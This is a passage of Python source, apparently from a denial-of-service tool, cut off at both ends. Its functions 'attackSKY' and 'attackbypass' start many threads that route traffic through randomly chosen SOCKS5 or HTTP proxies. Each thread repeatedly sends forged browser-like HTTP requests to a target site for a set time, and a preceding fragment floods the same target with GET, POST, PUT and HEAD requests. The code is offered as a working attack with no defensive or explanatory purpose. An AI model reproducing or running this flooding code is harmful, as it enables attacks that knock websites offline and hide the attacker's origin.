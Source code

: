                             r1 = client.get(url)
                            r2 = client.post(url, data={'login': value})
                            r3 = client.put(url, data={'login': value})
                            r5 = client.head(url)
                except httpx.HTTPError as exc:
                   pass
#region testzone
def attackSKY(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=LaunchSKY, args=(url, timer)).start()

def LaunchSKY(url, timer):
    prox = open("./socks5.txt", 'r').read().split('\n')
    proxy = random.choice(prox).strip().split(":")
    timelol = time.time() + int(timer)
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +" / HTTP/1.1\r\nHost: " + urlparse(url).netloc + "\r\n"
    req += "Cache-Control: no-cache\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Sec-Fetch-Site: same-origin\r\n"
    req += "Sec-GPC: 1\r\n"
    req += "Sec-Fetch-Mode: navigate\r\n"
    req += "Sec-Fetch-Dest: document\r\n"
    req += "Upgrade-Insecure-Requests: 1\r\n"
    req += "Connection: Keep-Alive\r\n\r\n"
    while time.time() < timelol:
        try:
            s = socks.socksocket()
            s.connect((str(urlparse(url).netloc), int(443)))
            s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
            ctx = ssl.SSLContext()
            s = ctx.wrap_socket(s, server_hostname=urlparse(url).netloc)
            s.send(str.encode(req))
            try:
                for i in range(200):
                    s.send(str.encode(req))
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            s.close()
#gbp
def attackbypass(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=Launchbypass, args=(url, timer)).start()

def Launchbypass(url, timer):
    prox = open("./http.txt", 'r').read().split('\n')
    proxy = random.choice(prox).strip().split(":")
    timelol = time.time() + int(timer)
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +" / HTTP/1.1\r\nHost: " + urlparse(url).netloc + "\r\n"
    req += "Cache-Control: no-cache\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Sec-Fetch-Site: same-origin\r\n"
    req += "Sec-GPC: 1\r\n"
    req += "Sec-Fetch-Mode: navigate\r\n"
    req += "Sec-Fetch-Dest: document\r\n"